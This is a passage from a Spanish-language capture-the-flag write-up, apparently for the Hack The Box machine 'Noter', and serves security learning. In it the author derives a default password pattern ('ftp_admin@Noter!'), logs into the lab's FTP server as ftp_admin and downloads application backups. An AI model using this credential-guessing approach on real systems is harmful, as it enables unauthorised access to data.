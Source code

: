 Descargo el PDF para examinarlo

```null
ftp> get policy.pdf
local: policy.pdf remote: policy.pdf
229 Entering Extended Passive Mode (|||35956|)
150 Opening BINARY mode data connection for policy.pdf (12569 bytes).
100% |********************************************************************************************************************************************************************| 12569      131.69 KiB/s    00:00 ETA
226 Transfer complete.
12569 bytes received in 00:00 (24.39 KiB/s)
```

Las contraseñas usadas por defecto siguen un patrón específico

<img src="/writeups/assets/img/Noter-htb/10.png" alt="">

Como había visto al usuario ```ftp_admin``` como autor de la nota, pruebo a conectarme al FTP como este con la contraseña ```ftp_admin@Noter!```. De nuevo es válida, y ahora puedo ver más archivos

```null
ftp 10.10.11.160
Connected to 10.10.11.160.
220 (vsFTPd 3.0.3)
Name (10.10.11.160:rubbx): ftp_admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||11897|)
150 Here comes the directory listing.
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
226 Directory send OK.
```

Parecen backups de la aplicación web

```null
ftp> prompt off
Interactive mode off.
ftp> mget *
local: app_backup_1635803546.zip remote: app_backup_1635803546.zip
229 Entering Extended Passive Mode (|||57850|)
150 Opening BINARY mode data connection for app_backup_1635803546.zip (25559 bytes).
100% |*******************************************************************************************************************************************************************| 25559       27.59 KiB/s    00:00 ETA
226 Transfer complete.
25559 bytes received in 00:01 (17.42 KiB/s)
local: app_backup_1638395546.zip remote: app_backup_1638395546.zip
229 Entering Extended Passive Mode (|||61168|)
150 Opening BINARY mode data connection for app_backup_1638395546.zip (26298 bytes).
100% |*******************************************************************************************************************************************************************| 26298       35.79 KiB/s    00:00 ETA
226 Transfer complete.
```